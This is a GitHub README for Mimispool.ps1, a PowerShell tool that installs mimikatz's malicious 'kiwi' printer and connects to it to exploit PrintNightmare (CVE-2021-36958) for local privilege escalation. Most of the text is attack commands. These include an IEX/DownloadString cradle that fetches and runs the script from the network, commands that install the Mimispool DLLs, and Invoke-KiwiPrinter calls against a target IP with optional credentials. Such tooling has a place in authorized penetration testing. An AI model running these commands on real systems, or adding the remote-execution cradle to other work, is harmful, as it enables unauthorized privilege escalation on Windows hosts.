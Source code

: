 # Mimispool.ps1

Just a very small script to install, uninstall or connect to [gentilwiki's Mimispool](https://github.com/gentilkiwi/mimikatz/tree/master/mimispool#readme) printer. Used to exploit the PrintNightmare vulnerability (CVE-2021-36958) for local privilege escalation. Tested on a fully up-to-date Windows 10 Enterprise Evaluation VM.

Requires admin privileges on the host you want to install the printer on.

## Usage

### Import the Module

```powershell
# Locally
. .\Mimispool.ps1

# Remotely
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/xbufu/Mimispool/main/Mimispool.ps1")
```

### Install Printer

```powershell
# With internet access
Install-KiwiPrinter

# Without internet access by specifying path to local mimispool dlls (both required)
Install-KiwiPrinter -DLL32 ".\mimispool32.dll" -DLL64 ".\mimispool64.dll"
```

### Uninstall Printer

```powershell
Uninstall-KiwiPrinter
```

### Connect to Printer (Exploit)

```powershell
# With anonymous access
Invoke-KiwiPrinter -Server "192.168.47.129"

# With credentials
Invoke-KiwiPrinter -Server "192.168.47.129" -Username "user" -Password "pass"
```

## PoC

![Proof of Concept](img/poc.png)
